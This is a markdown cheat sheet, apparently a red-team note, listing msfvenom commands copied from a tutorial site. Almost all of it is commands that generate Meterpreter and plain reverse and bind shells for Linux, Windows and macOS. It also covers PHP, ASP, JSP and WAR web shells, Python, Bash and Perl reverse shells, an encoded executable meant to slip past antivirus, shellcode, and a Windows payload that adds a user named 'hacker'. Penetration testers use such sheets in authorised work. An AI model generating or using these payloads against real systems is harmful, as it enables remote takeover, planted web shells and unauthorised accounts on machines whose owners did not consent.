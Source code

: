title: MSF Venom

`msfvenom` can be used to generate `meterpreter` payloads from the command line. 

The below is from [https://redteamtutorials.com/2018/10/24/msfvenom-cheatsheet/](https://redteamtutorials.com/2018/10/24/msfvenom-cheatsheet/)

## List payloads
```
msfvenom -l
```

## Binaries Payloads

Linux Meterpreter Reverse Shell
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f elf > shell.elf
```

Linux Bind Meterpreter Shell
```
msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f elf > bind.elf
```

Linux Bind Shell
```
msfvenom -p generic/shell_bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f elf > term.elf
```

Windows Meterpreter Reverse TCP Shell
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f exe > shell.exe
```

Windows Reverse TCP Shell
```
msfvenom -p windows/shell/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f exe > shell.exe
```

Windows Encoded Meterpreter Windows Reverse Shell
```
msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 -f exe > encoded.exe
```

Mac Reverse Shell
```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f macho > shell.macho
```

Mac Bind Shell
```
msfvenom -p osx/x86/shell_bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f macho > bind.macho
```

## Web Payloads

PHP Meterpreter Reverse TCP
```
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.php
cat shell.php | pbcopy && echo ‘<?php ‘ | tr -d ‘\n’ > shell.php && pbpaste >> shell.php
```

ASP Meterpreter Reverse TCP
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f asp > shell.asp
```

JSP Java Meterpreter Reverse TCP
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.jsp
```

WAR
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f war > shell.war
```

## Scripting Payloads

Python Reverse Shell
```
msfvenom -p cmd/unix/reverse_python LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.py
```

Bash Unix Reverse Shell
```
msfvenom -p cmd/unix/reverse_bash LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.sh
```

Perl Unix Reverse shell
```
msfvenom -p cmd/unix/reverse_perl LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.pl
```

## Shellcode

Windows Meterpreter Reverse TCP Shellcode
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f <language>
```

Linux Meterpreter Reverse TCP Shellcode
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f <language>
```

Mac Reverse TCP Shellcode
```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f <language>
```

## Create User

```
msfvenom -p windows/adduser USER=hacker PASS=Hacker123$ -f exe > adduser.exe
```
